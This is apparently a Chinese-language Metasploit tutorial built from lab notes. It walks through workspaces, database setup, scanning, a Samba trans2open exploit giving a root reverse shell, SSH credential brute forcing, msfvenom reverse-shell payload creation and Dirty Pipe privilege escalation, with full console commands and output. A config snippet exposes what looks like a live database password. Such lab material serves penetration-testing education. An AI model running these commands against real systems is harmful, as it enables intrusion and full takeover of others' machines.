

# Metasploit

## 工作区

**创建工作区**

使用 `workspace` 命令配合 `-a` 选项创建新工作区，新建工作区将自动设为当前活动区：

```
msf > workspace -a HR  
msf > workspace -a IT  
msf > workspace -a ACC  

# 输出示例  
default  
HR  
IT  
*ACC  # 星号（*）标记当前工作区  
```


**查看当前工作区**

执行 `workspace` 命令列出所有工作区，星号标识当前所处环境：

```
msf > workspace  

*default  # 当前工作区为 default  
HR  
IT  
ACC  
```


**切换工作区**

直接输入 `workspace` 命令后接目标名称（支持 Tab 补全）：

```
msf > workspace HR  
[*] Workspace: HR  # 切换至 HR 工作区  
```


**删除工作区**

使用 `-d` 选项删除指定工作区，**该操作将清除关联的所有数据**（主机、凭证、取证数据等）：

```
msf > workspace -d ACC  
[*] Workspace: ACC  # 删除 ACC 工作区  
```


## 数据库管理

Metasploit Framework 支持 PostgreSQL 作为后端数据库，用于存储主机数据、窃取信息（loot）及漏洞利用结果等。数据库管理命令均以 `db_` 前缀标识。


**手动连接数据库**

每次启动 `msfconsole` 后需手动连接数据库：

```
msf > db_connect 用户名:密码@127.0.0.1:5432/数据库名  
```

**参数说明**：

- `5432`：默认 PostgreSQL 端口，若自定义需替换
- `msf_database`：默认数据库名，若自定义需替换


**验证连接状态**：

```
msf > db_status  
[*] postgresql connected to msf_database  # 显示当前连接状态  
```


**自动连接数据库**

编辑 `$HOME/.msf4/config` 添加以下内容：

```
[framework/database]
default_db=local_db_service

[framework/database/local_db_service]
url=msf:Q5lQ4xZs8ZCUkvZssPGn7fG975FeE6@172.27.0.179/msf
```


**数据库和工作区**

所有工作区的数据均存储在同一个 PostgreSQL 数据库中，通过 `workspace` 字段进行逻辑隔离。

- **删除工作区**：会清除数据库中所有标记为该工作区的数据（主机、凭证等），但不会影响其他工作区或数据库连接参数。
- **跨工作区数据共享**：默认情况下工作区数据隔离，但可通过 `-r` 参数导出数据后手动导入其他工作区。


## 5大模块

模块是 Metasploit Framework 的核心组件，每个模块对应一项特定任务（如扫描或漏洞利用）。

模块存储路径：`/path/to/metasploit-framework-repo/modules`


模块按类型和协议分类，主要类型包括：

- **漏洞利用模块 (Exploit)**
    针对系统或应用的特定漏洞执行命令序列，如缓冲区溢出、代码注入及 Web 应用攻击。
- **辅助模块 (Auxiliary)**
    不执行载荷，用于扫描、模糊测试或拒绝服务攻击等非直接利用任务。
- **后渗透模块 (Post-Exploitation)**
    用于提升权限或收集目标系统信息，如哈希转储、服务枚举。
- **载荷模块 (Payload)**
    漏洞利用成功后执行的代码，支持 Meterpreter（动态扩展功能的高级载荷）或标准命令行 shell。
- **NOP 生成器 (NOP Generator)**
    生成随机字节序列，用于绕过入侵检测系统（IDS/IPS）的 NOP 雪橇签名检测。


### 搜索模块

控制台支持通过**搜索运算符**精准定位模块，可基于以下条件构建查询：

- 模块名称 (`name`)
- 路径 (`path`)
- 目标平台 (`platform`)
- 模块类型 (`type`)
- 应用程序 (`app`)
- 作者 (`author`)
- 漏洞编号 (`cve`/`bid`/`osdvb`)


搜索语法

```
search <搜索运算符>:<搜索词>
```


搜索示例

```
search platform:Windows
search type:exploit
search author:hd
search app:client
search name:ms08-067
```


显示所有攻击模块

```
show exploits
```

此命令会加载数千个模块，可能需要等待几分钟


## Auxiliary

针对系统或应用的特定漏洞执行命令序列，如缓冲区溢出、代码注入及 Web 应用攻击。


### 检测 HTTP 版本

**使用 Auxiliary http_version 模块检测 http 的版本**

搜索模块

```
msf6 > search type:auxiliary http_version 

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/http_version  .                normal  No     HTTP Version Detection


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/http_version
```


使用模块

```
msf6 > use 0 
msf6 auxiliary(scanner/http/http_version) > 
```

```
msf6 > use auxiliary/scanner/http/http_version 
msf6 auxiliary(scanner/http/http_version) > 
```


查看参数

```
msf6 auxiliary(scanner/http/http_version) > show options 

Module options (auxiliary/scanner/http/http_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads (max one per host)
   VHOST                     no        HTTP server virtual host


View the full module info with the info, or info -d command.
```


设置参数

```
msf6 auxiliary(scanner/http/http_version) > set RHOSTS 10.10.10.101 
RHOSTS => 10.10.10.101
```


执行模块

```
msf6 auxiliary(scanner/http/http_version) > run 
[+] 10.10.10.101:80 Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


### 检测 SMB 版本

搜索模块

```
msf6 > search type:auxiliary smb version 

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank    Check  Description
   -  ----                                                      ---------------  ----    -----  -----------
   0  auxiliary/gather/crushftp_fileread_cve_2024_4040          .                normal  Yes    CrushFTP Unauthenticated Arbitrary File Read
   1  auxiliary/dos/windows/smb/rras_vls_null_deref             2006-06-14       normal  No     Microsoft RRAS InterfaceAdjustVLSPointers NULL Dereference
   2  auxiliary/dos/windows/smb/ms11_019_electbowser            .                normal  No     Microsoft Windows Browser Pool DoS
   3  auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow  .                normal  No     Microsoft Windows SRV.SYS SrvSmbQueryFsInformation Pool Overflow DoS
   4  auxiliary/scanner/smb/smb_version                         .                normal  No     SMB Version Detection


Interact with a module by name or index. For example info 4, use 4 or use auxiliary/scanner/smb/smb_version
```


使用模块

```
msf6 > use 4 
msf6 auxiliary(scanner/smb/smb_version) > 
```


设置参数

```
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.101 
RHOSTS => 10.10.10.101
```


开始执行

```
msf6 auxiliary(scanner/smb/smb_version) > run 
[*] 10.10.10.101:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 10.10.10.101:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


## exploit + payload

### 利用 Samba模块

Samba 版本为 Unix (Samba 2.2.1a)，使用版本信息搜索利用模块。

```
msf6 > search type:exploit samba 2.2.x

Matching Modules
================

   #  Name                                                         Disclosure Date  Rank     Check  Description
   -  ----                                                         ---------------  ----     -----  -----------
   0  exploit/multi/samba/nttrans                                  2003-04-07       average  No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   1  exploit/freebsd/samba/trans2open                             2003-04-07       great    No     Samba trans2open Overflow (*BSD x86)
   2  exploit/linux/samba/trans2open                               2003-04-07       great    No     Samba trans2open Overflow (Linux x86)
   3  exploit/osx/samba/trans2open                                 2003-04-07       great    No     Samba trans2open Overflow (Mac OS X PPC)
   4  exploit/solaris/samba/trans2open                             2003-04-07       great    No     Samba trans2open Overflow (Solaris SPARC)
   5    \_ target: Samba 2.2.x - Solaris 9 (sun4u) - Bruteforce    .                .        .      .
   6    \_ target: Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce  .                .        .      .


Interact with a module by name or index. For example info 6, use 6 or use exploit/solaris/samba/trans2open
After interacting with a module you can manually set a TARGET with set TARGET 'Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce'
```


选择模块

```
msf6 > use exploit/linux/samba/trans2open 
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 
```


查看当前模块支持的 payload

```
msf6 exploit(linux/samba/trans2open) > show payloads 

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   0   payload/generic/custom                            .                normal  No     Custom Payload
   1   payload/generic/debug_trap                        .                normal  No     Generic x86 Debug Trap
   2   payload/generic/shell_bind_aws_ssm                .                normal  No     Command Shell, Bind SSM (via AWS API)
   3   payload/generic/shell_bind_tcp                    .                normal  No     Generic Command Shell, Bind TCP Inline
   4   payload/generic/shell_reverse_tcp                 .                normal  No     Generic Command Shell, Reverse TCP Inline
   5   payload/generic/ssh/interact                      .                normal  No     Interact with Established SSH Connection
   6   payload/generic/tight_loop                        .                normal  No     Generic x86 Tight Loop
   7   payload/linux/x86/adduser                         .                normal  No     Linux Add User
   8   payload/linux/x86/chmod                           .                normal  No     Linux Chmod
   9   payload/linux/x86/exec                            .                normal  No     Linux Execute Command
   10  payload/linux/x86/meterpreter/bind_ipv6_tcp       .                normal  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   11  payload/linux/x86/meterpreter/bind_ipv6_tcp_uuid  .                normal  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   12  payload/linux/x86/meterpreter/bind_nonx_tcp       .                normal  No     Linux Mettle x86, Bind TCP Stager
   13  payload/linux/x86/meterpreter/bind_tcp            .                normal  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   14  payload/linux/x86/meterpreter/bind_tcp_uuid       .                normal  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
```


设置参数

```
msf6 exploit(linux/samba/trans2open) > set RHOSTS 10.10.10.101 
RHOSTS => 10.10.10.101
msf6 exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > set LHOST 10.10.10.10 
LHOST => 10.10.10.10
```

默认的 **payload** 模块是 **linux/x86/meterpreter/reverse_tcp**，使用该模块无法利用成功，修改为 **payload/generic/shell_reverse_tcp** 模块可以利用成功。下面是 AI 的解释：

- 默认的 `linux/x86/meterpreter/reverse_tcp` 需要目标系统具备兼容的运行时环境（如动态链接库、内存布局等），而旧版 Samba 服务（如 2.2.x）可能运行在较老或特定配置的 Linux 系统上，导致 Meterpreter 无法正确加载或执行。
- `generic/shell_reverse_tcp` 是一个更基础的反向 Shell，仅依赖 TCP 连接和系统默认的 `/bin/sh`，对目标环境的要求更低，因此兼容性更强。


开始执行

```
msf6 exploit(linux/samba/trans2open) > run 
[*] Started reverse TCP handler on 10.10.10.10:4444 
[*] 10.10.10.101:139 - Trying return address 0xbffffdfc...
[*] 10.10.10.101:139 - Trying return address 0xbffffcfc...
[*] 10.10.10.101:139 - Trying return address 0xbffffbfc...
[*] 10.10.10.101:139 - Trying return address 0xbffffafc...
[*] 10.10.10.101:139 - Trying return address 0xbffff9fc...
[*] 10.10.10.101:139 - Trying return address 0xbffff8fc...
[*] 10.10.10.101:139 - Trying return address 0xbffff7fc...
[*] 10.10.10.101:139 - Trying return address 0xbffff6fc...
[*] Command shell session 1 opened (10.10.10.10:4444 -> 10.10.10.101:1052) at 2025-02-24 14:08:02 +0000

[*] Command shell session 2 opened (10.10.10.10:4444 -> 10.10.10.101:1053) at 2025-02-24 14:08:04 +0000
[*] Command shell session 3 opened (10.10.10.10:4444 -> 10.10.10.101:1054) at 2025-02-24 14:08:05 +0000
[*] Command shell session 4 opened (10.10.10.10:4444 -> 10.10.10.101:1055) at 2025-02-24 14:08:06 +0000
id
uid=0(root) gid=0(root) groups=99(nobody)
pwd
/tmp
```


## session

当通过漏洞利用（exploit）成功攻陷目标时（例如：反弹一个反向 Shell 或 Meterpreter 会话），MSF 会自动创建一个 **session**，用于：

- 发送指令到目标系统
- 接收目标系统的执行结果
- 维持与目标系统的持久化连接


**MSF6 sessions 管理命令**

用法：`sessions [选项] 或 sessions [会话ID]`

活动会话的管理与交互操作。


**详细参数**

```
-c, --command <命令>              对通过 -i 指定的会话或所有会话运行系统命令
-C, --meterpreter-command <命令>  对通过 -i 指定的会话或所有会话运行Meterpreter命令
-d, --list-inactive               列出所有非活动会话
-h, --help                        显示帮助信息
-i, --interact <会话ID>           与指定的会话ID进行交互
-k, --kill <会话ID>               按会话ID终止指定会话或范围
-K, --kill-all                    终止所有会话
-l, --list                        列出所有活动会话
-n, --name <会话ID> <名称>        按ID命名或重命名会话
-q, --quiet                       静默模式
-s, --script <脚本>               对通过 -i 指定的会话或所有会话运行脚本或模块
-S, --search <过滤器>             行搜索过滤器（例：sessions --search 'last_checkin:less_than:10s session_id:5 session_type:meterpreter'）
-t, --timeout <秒>                设置响应超时时间（默认：15秒）
-u, --upgrade <会话ID>            将Shell会话升级为Meterpreter会话（支持多平台）
-v, --list-verbose                详细列出所有活动会话
-x, --list-extended               显示会话表中的扩展信息
```


**会话类型示例**

| 类型            | 功能特点                           |
| --------------- | ---------------------------------- |
| **meterpreter** | 功能最强大，加密通信，支持内存注入 |
| **shell**       | 普通命令行（cmd/bash），功能有限   |
| **ssh**         | 通过 SSH 连接的会话                |
| **vnc**         | 图形化远程控制会话                 |


### ssh 会话

**搜索 ssh_login 模块**

```
msf6 > search ssh login type:auxiliary 

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/apache_karaf_command_execution  2016-02-09       normal  No     Apache Karaf Default Credentials Command Execution
   1  auxiliary/scanner/ssh/karaf_login                     .                normal  No     Apache Karaf Login Utility
   2  auxiliary/scanner/ssh/cerberus_sftp_enumusers         2014-05-27       normal  No     Cerberus FTP Server SFTP Username Enumeration
   3  auxiliary/scanner/http/cisco_firepower_login          .                normal  No     Cisco Firepower Management Console 6.0 Login
   4  auxiliary/scanner/ssh/ssh_login                       .                normal  No     SSH Login Check Scanner
   5  auxiliary/scanner/ssh/ssh_login_pubkey                .                normal  No     SSH Public Key Login Scanner


Interact with a module by name or index. For example info 5, use 5 or use auxiliary/scanner/ssh/ssh_login_pubkey

msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > 
```


**设置参数**

```
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD root
PASSWORD => root
```


**建立会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 10.10.10.10:22 - Starting bruteforce
[+] 10.10.10.10:22 - Success: 'root:root' 'uid=0(root) gid=0(root) groups=0(root) Linux xiaoshae 6.8.0-53-generic #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (10.10.10.10:39051 -> 10.10.10.10:22) at 2025-02-26 06:34:17 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


**查看会话列表**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 

Active sessions
===============

  Id  Name  Type         Information    Connection
  --  ----  ----         -----------    ----------
  1         shell linux  SSH unknown @  10.10.10.10:39051 -> 10.10.10.10:22 (10.10.10.10)
```


**进入会话（Ctrl + Z / background 退出会话）**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

ls
aaa.sh
dict
hack
include
man
shell
soft
tools
x.xml
^Z
Background session 1? [y/N]  y
```


**升级会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.10.10:4433 
[*] Sending stage (1017704 bytes) to 10.10.10.10
[*] Meterpreter session 2 opened (10.10.10.10:4433 -> 10.10.10.10:44832) at 2025-02-26 06:37:01 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
```


**会话列表**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  1         shell linux            SSH unknown @          10.10.10.10:39051 -> 10.10.10.10:22 (10.10.10.10)
  2         meterpreter x86/linux  root @ 172.16.100.100  10.10.10.10:4433 -> 10.10.10.10:44832 (10.10.10.10)
```


**进入会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo 
Computer     : 172.16.100.100
OS           : Ubuntu 24.04 (Linux 6.8.0-53-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 2...
```


**结束所有会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -K 
[*] Killing all sessions...
[*] 10.10.10.10 - SSH session 1 closed.
[*] 10.10.10.10 - Meterpreter session 2 closed.
```


### msfvenom

**msfvenom 生成 payload**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o payload
```


**上传到靶机**




**Metasploit 启动监听**

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD payload/linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.10
LHOST => 10.10.10.10
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:4444 
```


**在靶机上设置 payload 可执行权限（并执行）开始反连**


**连接成功**

```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:4444 
[*] Sending stage (3045380 bytes) to 10.10.10.102
[*] Meterpreter session 1 opened (10.10.10.10:4444 -> 10.10.10.102:53628) at 2025-02-26 07:20:24 +0000

meterpreter > sysinfo 
Computer     : 10.10.10.102
OS           : Debian 11.1 (Linux 5.10.0-9-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background 
[*] Backgrounding session 1...
```


**权限提升（检测漏洞）**

方式一：直接在会话中使用模块

```
meterpreter > sysinfo 
Computer     : 10.10.10.102
OS           : Debian 11.1 (Linux 5.10.0-9-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.10.102 - Collecting local exploits for x64/linux...
[*] 10.10.10.102 - Collecting local exploits for x64/linux...
[*] 10.10.10.102 - 203 exploit checks are being tried...
[+] 10.10.10.102 - exploit/linux/local/cve_2022_0847_dirtypipe: The target appears to be vulnerable. Linux kernel version found: 5.10.0
[+] 10.10.10.102 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 10.10.10.102 - exploit/linux/local/glibc_tunables_priv_esc: The target appears to be vulnerable. The glibc version (2.31-13+deb11u2) found on the target appears to be vulnerable
[+] 10.10.10.102 - exploit/linux/local/netfilter_nft_set_elem_init_privesc: The target appears to be vulnerable.
[+] 10.10.10.102 - exploit/linux/local/runc_cwd_priv_esc: The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.0.0~rc93+ds1-5+b2.
[+] 10.10.10.102 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 10.10.10.102 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.9.5p2.pre.3 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 73 / 73
[*] 10.10.10.102 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2022_0847_dirtypipe                         Yes                      The target appears to be vulnerable. Linux kernel version found: 5.10.0
 2   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/glibc_tunables_priv_esc                         Yes                      The target appears to be vulnerable. The glibc version (2.31-13+deb11u2) found on the target appears to be vulnerable
 4   exploit/linux/local/netfilter_nft_set_elem_init_privesc             Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/runc_cwd_priv_esc                               Yes                      The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.0.0~rc93+ds1-5+b2.
 6   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 7   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.9.5p2.pre.3 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
 8   exploit/linux/local/abrt_raceabrt_priv_esc                          No                       The target is not exploitable.

```


方式二：使用模块并绑定会话

```
msf6 > use post/multi/recon/local_exploit_suggester 
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1 # 设置会话 ID
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run # 检测漏洞
...
```


**利用漏洞进行提权**

```
msf6 > use exploit/linux/local/cve_2022_0847_dirtypipe 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set LHOST 10.10.10.10
LHOST => 10.10.10.10
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set LPORT 5555
LPORT => 5555
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > run 
[*] Started reverse TCP handler on 10.10.10.10:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.10.0
[*] Executing exploit '/tmp/.ubhkqc /bin/passwd'
[*] Sending stage (3045380 bytes) to 10.10.10.102
[+] Deleted /tmp/.ubhkqc
[*] Meterpreter session 2 opened (10.10.10.10:5555 -> 10.10.10.102:36030) at 2025-02-26 07:36:19 +0000

meterpreter > sysinfo 
Computer     : 10.10.10.102
OS           : Debian 11.1 (Linux 5.10.0-9-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```


## Nmap + msfconsole

先使用 Nmap 进行扫描，将扫描结果导出为 XML 格式，然后导入 msfconsole 的数据库中。

```
nmap -Pn -n -sS -sV -p 1-1024 -r -O -T 5 -oX kio.xml 10.10.10.101

Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-24 23:20 CST
Nmap scan report for 10.10.10.101
Host is up (0.00054s latency).
Not shown: 1018 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd (workgroup: UMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:C9:CE:F0 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.10 seconds
```


将扫描结果导出 msf 数据库。

```
msf6 > db_import kio.xml
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.18.2'
[*] Importing host 10.10.10.101
[*] Successfully imported /host/home/kio.xml
```


查看导入的内容

```
msf6 > hosts 

Hosts
=====

address       mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----  -------  ---------  -----  -------  ----  --------
10.10.10.101  00:0c:29:c9:ce:f0        Linux               2.4.X  server
```

```
msf6 > services 
Services
========

host          port  proto  name         state  info
----          ----  -----  ----         -----  ----
10.10.10.101  22    tcp    ssh          open   OpenSSH 2.9p2 protocol 1.99
10.10.10.101  80    tcp    http         open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
10.10.10.101  111   tcp    rpcbind      open   2 RPC #100000
10.10.10.101  139   tcp    netbios-ssn  open   Samba smbd workgroup: UMYGROUP
10.10.10.101  443   tcp    ssl/https    open   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
10.10.10.101  1024  tcp    status       open   1 RPC #100024
```


直接在 nmap 中使用 db_nmap 进行扫描，扫描结果自动导入数据库

```
msf6 > db_nmap -Pn -n -sS -sV -p 1-1024 -r -O -T 5 -oX kio.xml 10.10.10.101
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-24 15:22 UTC
[*] Nmap: Nmap scan report for 10.10.10.101
[*] Nmap: Host is up (0.00055s latency).
[*] Nmap: Not shown: 1018 closed tcp ports (reset)
[*] Nmap: PORT     STATE SERVICE     VERSION
[*] Nmap: 22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
[*] Nmap: 80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
[*] Nmap: 111/tcp  open  rpcbind     2 (RPC #100000)
[*] Nmap: 139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
[*] Nmap: 443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
[*] Nmap: 1024/tcp open  status      1 (RPC #100024)
[*] Nmap: MAC Address: 00:0C:29:C9:CE:F0 (VMware)
[*] Nmap: Device type: general purpose|media device
[*] Nmap: Running: Linux 2.4.X, Roku embedded
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:2.4 cpe:/h:roku:soundbridge_m1500
[*] Nmap: OS details: Linux 2.4.9 - 2.4.18 (likely embedded), Roku HD1500 media player
[*] Nmap: Network Distance: 1 hop
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 13.26 seconds
```


### hosts 

格式：`hosts [选项] [地址1 地址2 ...]`


详细选项：

```
-a, --add <主机>                     添加主机而非执行搜索操作
-c, --columns <列名>                 仅显示指定列（参见下方列名列表）
-C, --columns-until-restart <列名>   在下次重启前仅显示指定列（参见下方列名列表）
-d, --delete <主机>                  删除主机而非执行搜索操作
-h, --help                           显示本帮助信息
-i, --info <信息>                    修改主机的信息字段
-m, --comment <注释>                 修改主机的注释内容
-n, --name <名称>                    修改主机的名称
-O, --order <列编号>                 按指定列号排序结果
-o, --output <文件名>                将结果输出为CSV格式文件
-R, --rhosts                        从搜索结果设置RHOSTS变量
-S, --search <过滤条件>              指定搜索过滤条件
-T, --delete-tag <标签>              移除指定主机的标签
-t, --tag <标签>                     为指定主机添加标签
-u, --up                             仅显示在线状态的主机
```

可用列名：

address（地址）, arch（架构）, comm（通信协议）, comments（注释）, created_at（创建时间）, cred_count（凭据计数）, detected_arch（检测架构）, exploit_attempt_count（攻击尝试次数）, host_detail_count（主机详情计数）, info（信息）, mac（MAC地址）, name（名称）, note_count（备注计数）, os_family（操作系统族系）, os_flavor（操作系统变体）, os_lang（系统语言）, os_name（操作系统名称）, os_sp（系统补丁版本）, purpose（用途）, scope（范围）, service_count（服务计数）, state（状态）, updated_at（更新时间）, virtual_host（虚拟主机）, vuln_count（漏洞计数）, tags（标签）


示例：

**查看所有主机**

```
msf6 > hosts 

Hosts
=====

address       mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----  -------  ---------  -----  -------  ----  --------
10.10.10.101  00:0c:29:c9:ce:f0        Linux               2.4.X  server
```


**仅显示指定列（一次）**

```
msf6 > hosts -c address,mac,os_name,os_sp,purpose

Hosts
=====

address       mac                os_name  os_sp  purpose
-------       ---                -------  -----  -------
10.10.10.101  00:0c:29:c9:ce:f0  Linux    2.4.X  server
```


**仅显示指定列（在重启前）**

```
msf6 > hosts -C address,mac,os_name,os_sp,purpose

address       mac                os_name  os_sp  purpose
-------       ---                -------  -----  -------
